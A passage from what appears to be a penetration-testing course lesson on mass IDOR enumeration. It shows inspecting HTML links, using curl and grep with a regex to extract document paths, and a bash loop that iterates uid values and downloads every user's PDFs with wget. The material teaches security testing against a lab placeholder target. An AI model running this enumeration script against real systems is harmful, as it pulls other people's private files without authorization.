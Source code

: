 We can click on \[`CTRL+SHIFT+C`] in Firefox to enable the `element inspector`, and then click on any of the links to view their HTML source code, and we will get the following:

Code: html

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

&#x20; Mass IDOR Enumeration

```shell-session
root@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

As we can see, we were able to capture the document links successfully. We may now use specific bash commands to trim the extra parts and only get the document links in the output. However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:

&#x20; Mass IDOR Enumeration

```shell-session
root@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:

Code: bash

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
